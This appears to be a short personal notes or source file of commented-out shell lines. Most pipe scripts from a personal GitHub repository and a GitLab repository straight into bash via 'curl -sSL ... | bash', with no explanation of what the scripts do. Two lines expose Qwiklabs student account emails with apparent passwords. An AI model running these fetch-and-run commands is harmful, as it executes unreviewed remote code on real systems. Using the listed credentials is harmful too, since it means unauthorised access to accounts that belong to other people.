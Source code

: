 # curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/anod.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/ye.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/nis.sh/nis.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/aaa.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/yeni.sh" | bash
# curl -sSL "https://gitlab.com/jasa4/jasa/-/raw/main/kilan" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/kilan" | bash

# student-04-871e8e0fd1ff@qwiklabs.net Fb4zyO6KDdPc
# student-01-8ff4f028ff4b@qwiklabs.net Uub1lN7wxx09
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/scalas.sh" | bash
